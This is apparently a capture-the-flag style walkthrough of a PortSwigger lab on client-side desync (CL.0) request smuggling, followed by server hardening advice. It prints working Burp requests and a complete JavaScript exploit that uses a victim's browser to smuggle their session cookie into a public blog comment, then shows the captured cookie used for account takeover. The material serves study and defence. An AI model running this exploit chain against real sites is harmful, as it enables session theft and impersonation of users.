## Challenge Overview
* **Challenge name**: Client-side desync
* **Category**: HTTP Request Smuggling
* **Level**: Expert
* **Objective**: Bypass cross-origin protections and capture the victim user's session cookie using client-side desync, then use it to impersonate the victim and solve the lab.

---

## 1. Fundamental Concepts

### 1.1 The Paradigm Shift: From Server-Side to Client-Side Desync
Traditional HTTP Request Smuggling operates on the boundary between two back-end infrastructure components: a **Front-end Reverse Proxy** and a **Back-end Origin Server**. It exploits parsing discrepancies (e.g., CL.TE or TE.CL) over a shared connection pool.

In contrast, **Client-Side Desync (CSD)**, pioneered by PortSwigger Research (James Kettle, 2022), shifts the attack surface entirely to the **Client-to-Server connection**:
```text
Victim's Web Browser <---- Keep-Alive TCP/TLS Socket ----> Target Server
```

Even if an application employs no front-end reverse proxy, disables server-side connection pooling, or runs on isolated microservices, it remains inherently vulnerable if the server exhibits desynchronization behaviors directly toward client browsers.

### 1.2 Browser Connection Pooling (Keep-Alive)
All modern web browsers (Google Chrome, Mozilla Firefox, Apple Safari, Microsoft Edge) implement connection pooling over HTTP/1.1 for performance optimization. 
* Rather than establishing a new TCP 3-way handshake and TLS negotiation for every individual asset, the browser maintains a pool of persistent, reusable **Keep-Alive sockets** bound to a specific origin (`https://target.com`).
* When multiple HTTP requests are dispatched to the same origin—even across cross-origin contexts—they are pipelined sequentially over the **same underlying TCP stream**.

### 1.3 The CL.0 Vulnerability (Content-Length: 0)
According to **RFC 7230 / RFC 9112**, if an HTTP/1.1 request contains a `Content-Length: X` header, the receiving server must consume exactly $X$ bytes from the stream before processing subsequent requests.

However, many web servers, load balancers, and application frameworks (e.g., Apache, Nginx, Node.js, Python WSGI) implement non-compliant optimization shortcuts on specific routes:
* **Redirect Endpoints (301/302) & Static Resources:** When a client issues a `POST` request to an endpoint primarily designed to redirect (such as `/` redirecting to `/en`), the server presumes that redirects do not require a request body.
* The server parses the headers, immediately emits an `HTTP/1.1 302 Found` response, and **fails to read the body bytes off the socket buffer**.
* This constitutes a **CL.0 condition**: The browser assumes the server will read the body (governed by `Content-Length`), while the server treats the request body as non-existent (`Content-Length = 0`).

---

## 2. Attack Model & Architecture

### 2.1 The Vulnerability Mechanics
When a server ignores the `Content-Length` on a `POST /` request, the unread body data remains stranded in the operating system's TCP socket receive buffer. 

When the browser sends its **next** request over that same persistent socket:
1. The server reads from the socket buffer and encounters the leftover bytes from the previous request's unread body.
2. The server interprets those leftover bytes as the beginning (the prefix) of the new incoming request.
3. The real second request is appended to this prefix, effectively concatenating the two requests together on the server.

### 2.2 Attack Workflow & Data Flow Diagram

```text
========================================================================================
CLIENT-SIDE DESYNC (CSD) ATTACK WORKFLOW VIA CROSS-ORIGIN JAVASCRIPT
========================================================================================
[Victim User]
    │ (1) Visits https://exploit-server.net
    ▼
[Victim Browser]
    │ Executes malicious JavaScript payload hosted on Exploit Server
    │
    │ [SINGLE PERSISTENT TCP/TLS SOCKET TO TARGET SERVER (KEEP-ALIVE)]
    │
    │ (2) fetch('https://target.net', { method: 'POST', body: 'POST /en/post/comment...', mode: 'cors' })
    ▼
[Target Web Server] (Exhibits CL.0 on Redirect Endpoint /)
    │ Parses headers of POST / --> Emits 302 Found redirecting to /en
    │ IGNORES Content-Length! Leaves body bytes stranded in socket buffer!
    ▼
[Victim Browser]
    │ Receives 302 without Access-Control-Allow-Origin
    │ CORS policy triggers DOMException --> Immediately enters .catch() block!
    │ Fires secondary fetch('https://target.net/capture-me', { credentials: 'include' })
    │ Browser automatically appends victim's sensitive session cookies!
    ▼
[Target Web Server] (Processes Queued Bytes on Same Socket)
    │ Server reads leftover body bytes: 'POST /en/post/comment... comment='
    │ Concatenates Request #2 (including Cookie: session=...) as value of 'comment'!
    │ Executes comment posting on blog post #7 --> Stores victim credentials!
    ▼
[Attacker]
    │ (3) Views public comment on /en/post?postId=7
    │ Harvests victim's session cookie from stored comment text
    │ Impersonates victim to achieve full account takeover!
```

### 2.3 The Three Tactical Pillars of CSD

#### 1. The CORS Failure Trigger (`mode: 'cors'` + `.catch()`)
* If a cross-origin `fetch()` receives an HTTP 302 redirect, standard browser behavior is to follow the redirect transparently. Following the redirect would waste the desynchronized socket.
* By setting `mode: 'cors'`, the browser demands the `Access-Control-Allow-Origin` header. Because the target server does not supply it, the browser halts immediately and throws a DOMException (CORS error).
* The attacker attaches a `.catch()` handler to this failure. The moment the CORS error is caught, the script fires the secondary request down the **same open socket** before the browser closes it.

#### 2. Automatic Credential Inclusion (`credentials: 'include'`)
* When the secondary request (`/capture-me`) is triggered, the browser automatically attaches all ambient credentials associated with the target origin—including sensitive `session` cookies and `HttpOnly` flags.

#### 3. The Stored Reflection Gadget (Comment Storage Sink)
* To exfiltrate the victim's session cookie without violating cross-origin read restrictions, the attacker directs the smuggled prefix to the blog's comment endpoint (`POST /en/post/comment`).
* The parameter `comment=` is left open-ended at the end of the smuggled prefix with an inflated `Content-Length: 900`.
* The entire subsequent request—including the victim's private cookies—is consumed as the text content of the comment and publicly rendered on the blog post.

---

## 3. Step-by-Step Exploitation (PoC)

### 3.1. Phase 1: Identifying the CL.0 Endpoint in Burp Suite
1. Capture a baseline request `GET /` in Burp Suite and send it to **Repeater**.
2. Notice that requesting `/` returns an immediate `HTTP/1.1 302 Found` redirecting to `/en`:
```http
HTTP/1.1 302 Found
Location: /en
Keep-Alive: timeout=10
Content-Length: 0
```



3. In Burp Repeater, open the tab options menu (gear icon) and uncheck **Update Content-Length**.
4. Change the request method to `POST / HTTP/1.1`, set an arbitrary header `Content-Length: 10`, but **leave the request body completely empty**:



5. Send the request. The server replies instantaneously with `302 Found` rather than hanging or timing out while waiting for 10 bytes of body data.
   > **Diagnostic:** The server completely ignores `Content-Length` on the `/` endpoint, confirming a **CL.0 desync vector**.

---

### 3.2. Phase 2: Confirming Desynchronization in Burp Suite (Single Connection Sequence)
Before involving a browser, we prove that socket desynchronization can be achieved over a single TCP connection.

1. In Burp Repeater, create **Tab 11** containing the malicious request with a smuggled prefix targeting `/404`:
```http
POST / HTTP/1.1
Host: 0aa400f604488d778030031a00c70043.h1-web-security-academy.net
Connection: keep-alive
Content-Length: 28

GET /404 HTTP/1.1
abc: tuki
```



2. Create **Tab 12** containing an ordinary request:
```http
GET / HTTP/1.1
Host: 0aa400f604488d778030031a00c70043.h1-web-security-academy.net
Connection: keep-alive
```
3. Group both tabs into a tab group named `test`.
4. In the drop-down menu next to the **Send** button, choose **Send group (single connection)**.
5. Send the sequence. Tab 11 receives the expected `302 Found`, while Tab 12 receives:
```http
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Content-Length: 11

"Not Found"
```



> **Conclusion:** The server processed the unread body of Tab 11 as the prefix of Tab 12, routing the second request to `/404`.

---

### 3.3. Phase 3: Replicating the Desync Vector in a Clean Browser
A critical methodology step in Client-Side Desync is verifying that a **real browser engine** (with native networking and security constraints) exhibits the exact same socket reuse behavior.

> [!NOTE]
> **CRITICAL METHODOLOGY NOTE:**
> In this step, **disable Burp Proxy (FoxyProxy)** or use a dedicated clean browser profile.
> * **Why?** If proxied through Burp, the browser's TCP socket terminates at `127.0.0.1:8080`. Burp Proxy acts as a man-in-the-middle, decoupling and normalizing connections to the upstream server. Testing without proxy ensures the browser communicates directly with the target socket over real-world Keep-Alive connections.

1. Open a clean Google Chrome browser window directly accessing the target lab.
2. Open **Developer Tools** (`F12`), navigate to the **Console** tab, and execute:
```javascript
fetch('https://0aa400f604488d778030031a00c70043.h1-web-security-academy.net', {
    method: 'POST',
    body: 'GET /404 HTTP/1.1\r\nabc: tuki',
    mode: 'cors',
    credentials: 'include',
}).catch(() => {
    fetch('https://0aa400f604488d778030031a00c70043.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    });
});
```



3. Switch to the **Network** tab (ensure **Preserve log** is enabled).
4. Verify the traffic:
   * The first `POST /` returns `302` and triggers a CORS failure, entering the `.catch()` block.
   * The second request fires on the same socket and returns **`404 Not Found`**:



> **Verification Complete:** The browser successfully reused the desynchronized socket to execute the smuggled request.

---

### 3.4. Phase 4: Weaponizing the Comment Storage Sink
To capture the victim's session cookie, we chain the desync vector with the application's blog comment feature.

1. Re-enable the proxy, visit blog post 7 (`/en/post?postId=7`), and submit a test comment.
2. In Burp **Proxy > HTTP history**, inspect the comment submission request:
```http
POST /en/post/comment HTTP/1.1
Host: 0aa400f604488d778030031a00c70043.h1-web-security-academy.net
Cookie: session=RzdeuwLeB5Oj7UNAlykC3Gq4qNaffmv2; _lab_analytics=...
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

csrf=knEeHj3xsIS7zvDRJTWcbnhGl4GRJq2F&postId=7&comment=hihihi&name=tuki&email=tuki%40gmail.com&website=http%3A%2F%2Fexample
```



3. Note the critical parameters:
   * Target URL: `/en/post/comment`
   * Valid Anti-CSRF Token: `csrf=knEeHj3xsIS7zvDRJTWcbnhGl4GRJq2F`
   * Target Post: `postId=7`
   * Attacker's active session cookie and analytics token.

---

### 3.5. Phase 5: Crafting & Delivering the Exploit Payload
1. Navigate to the **Exploit Server** (`/exploit`).
2. In the **Body** section, configure the complete exploit payload:
   * The outer request targets the vulnerable CL.0 endpoint (`POST /`).
   * The body injects a complete `POST /en/post/comment` request.
   * An inflated `Content-Length: 900` is defined.
   * The parameter `comment=` is positioned at the very end of the body.
   * When the victim's browser sends the subsequent `fetch('/capture-me')`, the server appends the entire incoming request (headers + cookies) into the `comment` field.

```html
<script>
fetch('https://0aa400f604488d778030031a00c70043.h1-web-security-academy.net', {
    method: 'POST',
    body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0aa400f604488d778030031a00c70043.h1-web-security-academy.net\r\nCookie: session=RzdeuwLeB5Oj7UNAlykC3Gq4qNaffmv2; _lab_analytics=XrlIGAxSVWYeAXJSKMDUBFbihdAvdi7CnUUMcAxcIaLj2fco28KN7akSCqNiIaF5BkcDFZXJfyhR3Bb59LBpta1SXY2o4j7RDpWIEBC2cZefPk5wvtaLG3GTTBVLuSdDyISUawOlN15DofwgyJyg89rv2OhnT26EMdlQu00Z9cXlxbOKzoUs1reLU6rkrsYJdxdPZBfSg875XYiZJN9eJEiCQo8tb0Ro34hDdXVsDgXLYkHIJqJDG127vrsfvRvO\r\nContent-Length: 900\r\nContent-Type: application/x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=knEeHj3xsIS7zvDRJTWcbnhGl4GRJq2F&postId=7&name=victim_hacker&email=hacker@test.com&website=https://attacker.com&comment=',
    mode: 'cors',
    credentials: 'include',
}).catch(() => {
    fetch('https://0aa400f604488d778030031a00c70043.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    });
});
</script>
```



3. Click **Store**, then click **Deliver exploit to victim**.

---

### 3.6. Phase 6: Harvesting the Session Cookie & Account Takeover
1. Return to blog post 7 (`/en/post?postId=7`) and refresh the page.
2. Under the comment section, a new comment submitted by `victim_hacker` appears. The comment body exposes the victim browser's raw HTTP request:
```http
GET /capture-me HTTP/1.1
Host: 0aa400f604488d778030031a00c70043.h1-web-security-academy.net
Connection: keep-alive
User-Agent: Mozilla/5.0 (Victim)
Cookie: victim-fingerprint=QtJzvnRWz1T6ggboZzmNpeUoCxIWoKbc; secret=XBEH5V4onLtftzOrZhvwsiGdSCSI3w85; session=MwRZ0FJmIV30g1T8fd0qoWyGm2ltA51R; _la
```



3. Extract the stolen session cookie:
```text
session=MwRZ0FJmIV30g1T8fd0qoWyGm2ltA51R
```
4. In Burp Repeater, send a request to `/` or `/my-account` with the victim's session cookie replacing your own:



5. Refresh the browser. The lab banner updates to **Solved**.



---

## 4. Remediation & Defense Strategies

### 4.1 Strict RFC 7230 / RFC 9112 Conformance for Message Bodies
The fundamental flaw enabling CL.0 is the server prematurely concluding request processing without draining the socket.
* **Drain Socket Streams:** If an incoming request specifies `Content-Length > 0`, the web server must read and discard the entire body payload before emitting a response (even for 3xx redirects or 4xx/5xx errors).
* **Connection Termination on Unexpected Bodies:** If an endpoint does not support request bodies (such as `GET` or redirect endpoints), the server must reject the request with `400 Bad Request`, issue `Connection: close`, and **immediately tear down the TCP socket** to prevent pipeline reuse.

### 4.2 Upgrading to End-to-End HTTP/2
* Client-Side Desync fundamentally relies on HTTP/1.1 pipelining over a persistent Keep-Alive TCP stream.
* Under **HTTP/2**, requests are multiplexed into distinct, independent streams (`Stream ID`). Bytes belonging to Stream 1 can never bleed into or prefix Stream 2. Enforcing HTTP/2 directly between client browsers and edge servers eliminates CSD entirely.

### 4.3 Robust Cookie Hardening (`SameSite` Attribute)
While CSD originates as a request framing bug, the primary objective in this attack chain is stealing ambient credentials.
* Enforce **`SameSite=Lax`** or **`SameSite=Strict`** on all sensitive session identifiers:
```http
Set-Cookie: session=xyz; Path=/; Secure; HttpOnly; SameSite=Lax
```
* Under `SameSite=Lax` or `Strict`, the browser strictly suppresses cookies on cross-origin `POST` fetch requests initiated by third-party origins, preventing the victim's authentication context from being captured during desynchronization.

### 4.4 Web Server Hardening Examples

#### Node.js / Express
Ensure middleware explicitly reads incoming streams or rejects bodies on redirect routes:
```javascript
app.use((req, res, next) => {
    // If request specifies Content-Length on routes that forbid it, terminate socket
    if (['GET', 'HEAD'].includes(req.method) && req.headers['content-length'] > 0) {
        res.set('Connection', 'close');
        return res.status(400).send('Invalid Content-Length on bodyless method');
    }
    next();
});
```

#### Nginx
Ensure Nginx strictly enforces body reading before processing redirects:
```nginx
server {
    # Ensure client bodies are drained
    client_body_timeout 10s;
    
    # Close connection upon malformed requests
    keepalive_requests 100;
    keepalive_timeout 65s;
}
```
